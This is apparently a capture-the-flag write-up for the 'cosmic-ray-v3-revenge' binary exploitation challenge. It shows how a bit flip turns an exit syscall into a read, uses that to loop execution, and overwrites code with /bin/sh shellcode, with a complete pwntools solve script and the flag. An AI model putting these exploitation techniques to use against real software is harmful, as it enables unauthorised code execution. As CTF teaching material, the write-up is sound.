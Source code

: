 # cosmic-ray-v3-revenge \[493 Points] (18 Solves)
```
Ok I lied... One last dance!
```
Attached is [dist/](./dist)

---

## Writeup

Before I begin with the writeup, make sure you are familiar with the non
revenge version or read its [writeup](../cosmic-ray-v3/README.md).

Alright, so looking at the new binary, it looks like **the only thing changed is
initialization code was extracted into a function**. \
Sadly, this new function is located between `cosmic_ray` and `main`, so the old
trick will no longer work.

![The mentioned above demonstrated in assembly (mov eax, 0x3c ; xor rdi, rdi ; syscall)](./images/cosmicrayv3_ret.png)

We cannot use the pervious trick to get infinite flips, but it's still our target:
**looping back into `cosmic_ray`.**

An interesting part of the program that annoyed me ever since I opened `cosmic-ray-v3`
(the prev version) is **the syscall**. After all, _why would there be a syscall here?_
![The assembly of syscall](./images/syscall.png) \
Ok so that's the `exit` syscall. We can find all the x86-64 syscalls in a table
like [this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) one.

I wrote a script to display all the possible instructions we could get from a bit flip
```py
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long
context.arch = "amd64"

def flip(num, idx):
    mask = 1 << idx

    return num ^ mask

instruction_bytes = bytes.fromhex(input("Instruction bytes: ").replace(" ", ""))
instruction_int = bytes_to_long(instruction_bytes)
log.info(f"{hex(instruction_int)}\t{bin(instruction_int)}\t{disasm(instruction_bytes)}")

for i in range(len(instruction_bytes) * 8):
    flipped = flip(instruction_int, i)
    new_line = "\n" # We need to do this because of fstrings
    log.info(f"{hex(flipped)}\t{bin(flipped)}\t{disasm(long_to_bytes(flipped)).replace(new_line, ';')}")
```

An interesting target would be **the instruction responsible for the syscall we execute: `mov eax, 0x3c`**.
First I tried all the resulting `mov eax, SOME_NUMBER`, and checked which syscalls that would be. \
Sadly, nothing of interest was found (at least that I could exploit):
```
EAX  SYSCALL
------------
316  renameat2
61   wait4
62   kill
56   clone
52   getpeername
44   sendto
28   madvise
124  getsid
188  setxattr
```
You can find the script I wrote for this [here](./find_syscalls.py).

Then I noticed something interesting
```
[*] 0xb93c000000	0b1011100100111100000000000000000000000000	  0:   b9 3c 00 00 00          mov    ecx, 0x3c
[*] 0xba3c000000	0b1011101000111100000000000000000000000000	  0:   ba 3c 00 00 00          mov    edx, 0x3c
[*] 0xbc3c000000	0b1011110000111100000000000000000000000000	  0:   bc 3c 00 00 00          mov    esp, 0x3c
```

**We could set `edx` to be `0x3c`, instead of modifying `eax`!** What syscall will it
call then? \
`eax` is the register that, normally, stores the return value of a function. And
**after a successful flip, the returned value is `eax=0`!**
_**It's the read syscall!**_

So, flipping that bit, would execute `read_syscall(fd=$rdi, buf=$rsi, count=$rdx)`
Looking back at the assembly of the syscall, we also notice `xor rdi, rdi`, thus
`rdi` will be equal to 0. What bout `rsi`? Looking at cosmic_ray we see \
![cosmic_ray disass with (lea rcx, [rbp - 0x1e]; /* snip */; mov rsi, rcx)](./images/rsi_value.png)
_**`rsi` points to the stack!**_

**So the syscall will be `read_syscall(fd=0, buf=old_stack_var, count=0x3c)`!**
`old_stack_var` is an address on the stack which is above our stackframe (prev stackframe base - 0x1e).

### Wait, but how does it help us?
Luckily, the `old_stack_var`, is a bit less that `0x3c` bytes above the stored
`rip` of main. So we create for ourselves a mini BOF. **That's enough to loop back
to main!**

However, returning directly to `main` would mess with the stackframe, so we will
be returning to `_start` which will still call main but with correct values for `rsp`.

This also creates a problem: The shellcode we were writing to `exit@plt` actually overflows a bit into `_start`,
which wasn't a problem before, but now is. So instead of putting the shellcode in `exit@plt`,
I overwrote the **content of `deregister_tm_clones`** and then changed the final **`call exit@plt` to `call deregister_tm_clones`**

```py
io = start()

deregister_bytes = [ 0xb8, 0x10, 0x40, 0x40, 0x0, 0x48, 0x3d, 0x10, 0x40, 0x40, 0x0, 0x74, 0x13, 0xb8, 0x0, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x9, 0xbf, 0x10, 0x40, 0x40, 0x0, 0xff, 0xe0, 0x66, 0x90, 0xc3, 0x66, 0x66, 0x2e, 0xf, 0x1f, 0x84, 0x0, 0x0, 0x0, 0x0, 0x0, 0xf, 0x1f, 0x40, 0x0, 0xbe, 0x10, 0x40, 0x40, 0x0, 0x48, 0x81, 0xee, 0x10, 0x40, 0x40, 0x0, 0x48, 0x89, 0xf0, 0x48, 0xc1, 0xee, 0x3f, 0x48, 0xc1, 0xf8, 0x3, 0x48, 0x1, 0xc6, 0x48, 0xd1, 0xfe, 0x74, 0x11, 0xb8, 0x0, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x7, 0xbf, 0x10, 0x40, 0x40, 0x0, 0xff, 0xe0, 0xc3, 0x66, 0x66, 0x2e ]
deregister_address = 0x4011d0
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    io.recvuntil(b"through:\n")

    io.sendline(hex(address).encode())
    io.recvuntil(b"flip:")
    io.sendline(str(bit).encode())


def rop_to_start():
    io.recvuntil(b"Bit successfully flipped!")
    io.send(fit({
        54: 0x401190 # The address of `_start`
    })[:0x3c])


flip(0x4015fa, 6) # Flip a bit in mov eax, 0x3c to make it mov edx, 0x3c. This turns the exit syscall into read syscall

rop_to_start() # Use the read syscall to overwrite the stored RIP

# Overwrite the body of deregister_tm_clones function with /bin/sh shellcode
curr_address = deregister_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(deregister_bytes[i])[2:]

    #fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
            rop_to_start()
    curr_address += 1

# Overwrite `call exit@plt` into `call deregister_tm_clones`
desired_bytes = [0xe8, 0xa3, 0xfc, 0xff, 0xff]
exit_call_bytes = [0xe8, 0x53, 0xfc, 0xff, 0xff]
exit_call_address = 0x401528
curr_address = exit_call_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(exit_call_bytes[i])[2:]

    # Fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
            rop_to_start()
    curr_address += 1


flip(0, -1) # Trigger exit and thus the exploit

io.interactive()
```

[solve.py](./solve.py)

**FLAG:** `vsctf{th4t5_477_f0lk5!!}`

